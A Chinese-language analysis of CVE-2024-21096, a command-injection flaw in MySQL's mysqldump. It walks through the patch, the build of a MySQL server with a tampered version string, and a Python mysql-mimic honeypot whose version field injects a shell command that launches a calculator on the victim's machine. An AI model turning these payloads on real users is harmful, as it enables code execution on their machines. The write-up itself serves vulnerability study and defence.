






CVE-2024-21096是一个中等严重性的漏洞，它影响Oracle MySQL Server产品中的mysqldump组件。成功利用此漏洞的未认证攻击者可能对MySQL Server的数据进行未授权的更新、插入或删除操作，还可以读取MySQL Server可访问数据的一部分，并可能导致MySQL Server部分拒绝服务（partial DOS）。利用该漏洞的攻击需要在MySQL Server的本地进行，因此利用条件有限，利用复杂性也较高，该漏洞主要影响8.0.0版本至8.0.36版本之间的MySQL Server。

## 漏洞原理

mysqldump是MySQL的一个组件，可以用于将 MySQL 数据库的数据和结构导出到一个文本文件中，该文件通常是 SQL 格式。这个文件随后可以被用来备份数据库、迁移数据或在另一个 MySQL 服务器上重建数据库。

比如用mysqldump导出MySQL数据库中的某个数据库，可以在MySQL Server本地用以下命令：

``` Bash
    mysqldump -u username -p database_name > dumpfile.sql
```

其中username是用户名，database\_name是待导出的数据库名称，导出之后得到dumpfile.sql文件。

导出后的SQL文件可以使用mysql命令执行导入操作，比如：

``` Bash
    mysql -u username -p database_name < /path/to/dumpfile.sql
```

导出和导入的操作可以理解为将数据库按照SQL语句解析导出为文件，再逐一执行SQL语句文件构建新的数据库。

问题在于，mysqldump在接收MySQL Server的信息时候没有对数据库版本等元信息（meta command）进行净化处理，攻击者可以构造恶意的元信息通过mysqldump导出，并在SQL文件导入的时候执行恶意代码。

这点可以查看2024年2月22日漏洞修复的代码变更情况获知：



在之前的版本（8.0.36）中，可以看到mysqldump在处理MySQL版本信息时只是通过mysql\_get\_server\_info(&mysql\_connection)获得版本信息并输出，而漏洞补丁中去除了这段代码，增加了get\_safe\_server\_info函数，该函数中做了两个主要的变更：

1.  通过SERVER\_VERSION\_LENGTH宏定义的60个字符限制版本信息的长度；
    
2.  检查版本信息中是否存在非法字符（非字符或标点服务），如果存在则抛弃非法字符并返回版本信息。
    
另外，在补丁中还可以看到为了测试补丁用到的测试攻击版本信息，即DBUG\_EXECUTE\_IF部分中的：

``` Bash
    8.0.0-injection_test\n\\! touch /tmp/xxx
```

## 漏洞利用

根据以上的漏洞原理，可知利用点是在MySQL的服务版本信息中，在服务版本信息中注入恶意代码之后，包含服务版本信息的SQL文件被MySQL执行后，便可以执行恶意代码。由于mysqldump和mysql命令联合执行或通过SQL文件执行的概率不高，因此CVE-2024-21096漏洞的CVSS评分不高，仅有4.9分，其中可利用性分数只有1.4分。

但漏洞的利用难点在于MySQL的版本信息是一个只读变量，是无法通过MySQL手动配置进行修改的，唯一的办法是通过源代码编译构建MySQL版本，在源代码中修改MySQL的版本信息，修改/include/mysql\_version.h文件中的MYSQL\_SERVER\_VERSION宏定义，比如：



笔者以8.0.34版本为例，通过手动修改版本信息，并编译MySQL，编译过程如下：

``` Bash
sudo apt-get update
sudo apt-get install build-essential cmake libncurses5-dev bison libssl-dev pkg-config
 
wget https://dev.mysql.com/get/Downloads/MySQL-8.0/mysql-8.0.34.tar.gz
tar xzvf mysql-8.0.34.tar.gz
cd mysql-8.0.34
 
mkdir build
cd build
cmake .. -DDOWNLOAD_BOOST=1 -DWITH_BOOST=..
 
make
sudo make install
```

上述命令执行完毕后，MySQL即编译安装完成，接下来是初始化MySQL数据库：

``` Bash
    sudo /usr/local/mysql/bin/mysqld --initialize --user=mysql --basedir=/usr/local/mysql --datadir=/usr/local/mysql/data
```

初始化期间会随机生成MySQL的root账户口令，重置口令之后通过show variables查看服务版本即可发现版本信息是修改后的内容：



假设受害者通过mysqldump连接上面修改版本信息之后的攻击机：

``` Bash
    mysqldump -h 192.168.2.217 -urepoog -p mysql
```

执行上述命令后即可看到版本信息是修改之后的内容：



在执行数据库导出和导入操作之后，版本信息中的命令就会得到执行，比如下面的命令：

``` Bash
    mysqldump -h 192.168.2.217 -urepoog -p pwndb | msyql -h 192.168.2.217 -urepoog -p pwndb_imp
```



当然，除了手动编译MySQL之外，也可以使用高交互的MySQL蜜罐项目进行更简单的配置和修改，比如使用mysql-mimic项目，该项目是用 Python编写的轻量级项目，它旨在模拟MySQL数据库的行为，它可以在不实际运行MySQL数据库的情况下，模拟MySQL的协议和行为，常用来做无MySQL实际环境下MySQL测试。

在蜜罐机上基于mysql-mimic库编写和运行以下代码，该代码中设置了MySQL的服务版本信息：

``` Python
import logging
import asyncio
from sqlglot.executor import execute
 
from mysql_mimic import MysqlServer, Session
from mysql_mimic.variables import GlobalVariables
  
SCHEMA = {
    "test": {
        "x": {
            "a": "INT",
        }
    }
}
 
TABLES = {
    "test": {
        "x": [
            {"a": 1},
            {"a": 2},
            {"a": 3},
        ]
    }
}
 
class MyVariables(GlobalVariables):
    def __init__(self):
        super().__init__()
        self.set("version", "8.0.0-injection-test\n\\! gnome-calculator", True)
 
class MySession(Session):
    def __init__(self):
        super().__init__()
        self.variables = MyVariables()
        self._functions["VERSION"] = "8.1.1"
 
    async def query(self, expression, sql, attrs):
        result = execute(expression, schema=SCHEMA, tables=TABLES)
        return result.rows, result.columns
 
    async def schema(self):
        return SCHEMA
 
 async def main():
    logging.basicConfig(level=logging.DEBUG)
    server = MysqlServer(session_factory=MySession)
    await server.serve_forever()
 
 if __name__ == "__main__":
    asyncio.run(main())
    
```

上述程序中设计的服务版本信息是8.0.0-injection-test\\n\\\\! gnome-calculator，蜜罐机的IP地址是172.23.189.209，攻击者（也是受害者）如果通过资产探测扫描到MySQL蜜罐，并通过mysqldump企图做数据库导出和导入，则会出现下图中的效果（弹出计算器）。
  


## 修复方案

这个漏洞的利用条件非常有限，修复方法也非常简单，只需要升级最新版本的MySQL即可。

## 参考资料

https://media.defcon.org/DEF%20CON%2032/DEF%20CON%2032%20presentations/DEF%20CON%2032%20-%20Alexander%20Rubin%20Martin%20Rakhmanov%20-%20Atomic%20Honeypot%20A%20MySQL%20Honeypot%20That%20Drops%20Shells.pdf